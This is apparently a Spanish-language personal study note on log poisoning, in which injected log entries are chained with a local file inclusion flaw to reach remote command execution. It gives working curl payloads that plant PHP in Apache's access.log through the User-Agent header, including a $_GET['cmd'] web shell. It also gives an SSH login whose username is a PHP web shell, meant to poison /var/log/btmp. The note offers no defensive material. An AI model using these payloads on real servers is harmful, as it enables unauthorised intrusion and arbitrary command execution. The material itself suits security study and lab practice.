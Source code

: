 #LogPoisoning #LFI-RCE #OWASP #Explotacion 

#### Descripción
> **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro** (**logs**) de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **LFI** para lograr una **ejecución remota de comandos** en el servidor.

### Abusando de Logs APACHE2
 En el directorio `/var/log` se encuentran los logs de los servicios que estar corriendo y que estos logs sean visibles puede acontecer a un *Log Poisoning* 
 En el servicio de `Apache2` la ruta de los logs se encontraría en `/var/log/apache2/access.log`

Si en el navegador puedes acceder a este archivo nos muestra el `User-Agent` esto es es una parte del protocolo `HTTP` que permite tramitar información de forma detallada sobre el dispositivo que tramita la petición. Con lo que puedes ver la IP que tramita la solicitud y el `User-Agent` que la tramita.

Se puede modificar el `User-Agent` tramitando una petición con CURL y modificando en esta petición el `User-Agent` pudiendo así ejecutar código `PHP`
`curl -s -X GET "http://IP/ruta" -H "User-Agent: <?php system('whoami'); ?>" `

En la consulta anterior con el parámetro `-H` Indicamos cual queremos que sea el `User-Agent` pudiendo así modificarlo para inyectar código `PHP` y que sea interpretado por la maquina victima.

Si podemos colar código `PHP` podemos ver la información y el estado de el `PHP` corriendo en la maquina viendo que funciones están o no habilitadas con la siguiente inyección:
`curl -s -X GET "http://IP/ruta" -H "User-Agent: <?php phpinfo(); ?>" `

Como código `PHP` a colar para poder control total sobre los comandos a inyectar podemos usar la siguiente petición:
`curl -s -X GET "http://IP/ruta" -H "User-Agent: <?php system(\$_GET['cmd']); ?>" `

En la `URL` tendremos que añadir `&cmd=<comando>` y se nos mostrara por pantalla lo que vayamos indicando.

### Abusando de Logs SSH
En el directorio `/var/log` se encuentran los logs de los servicios que estar corriendo y que estos logs sean visibles puede acontecer a un *Log Poisoning* 
En el servicio de `SSH` la ruta de los logs se encontraría en `/var/log/btmp`

En este tipo de *Log Poisoning* el input que se controla es el input del usuario entonces es ahí donde inyectaremos el código `PHP`
`ssh '<?php system($_GET["cmd"]); ?>'@172.17.0.2

En la `URL` tendremos que añadir `&cmd=<comando>` y se nos mostrara por pantalla lo que vayamos indicando.
